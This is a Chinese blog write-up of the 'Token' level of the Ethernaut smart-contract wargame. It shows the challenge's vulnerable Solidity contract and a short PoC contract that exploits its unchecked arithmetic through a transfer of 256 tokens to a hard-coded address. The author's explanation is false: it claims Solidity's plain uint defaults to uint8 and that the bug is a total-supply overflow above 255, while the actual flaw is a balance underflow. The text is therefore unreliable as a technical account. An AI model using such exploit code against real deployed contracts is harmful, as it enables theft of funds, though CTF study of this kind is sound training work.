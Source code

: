 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-3'
date: 2022-12-9 19:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'







---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第五关Token  思路与POC

##### 目标: 初始分配20token 想办法增加

#### 先看代码:

代码逻辑上是没有问题的,标准ERC20的实现.那么问题在哪里呢:question:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  //注意看数据类型,在solidity中uint如果不指定数据类型存储范围的话默认是uint8
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

poc思路:point_right:：既然总共的token供应单位是uint8的话,那么只需要transfer超过255的token就会数据溢出

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Token.sol";

contract tokenHack{

  Token token = Token(0x4532122Ab6D63e095A220ed37F77E1752B88b8C3);
  //只需要转账的token数量超过255即构成数据溢出,效果就会转账255的token到指定地址,不管转出地址有多少token
  function overflow() public {
      token.transfer(0x0e21d35681E679C33dD49731935FB81F1aee8C05,256);

  }
}
```

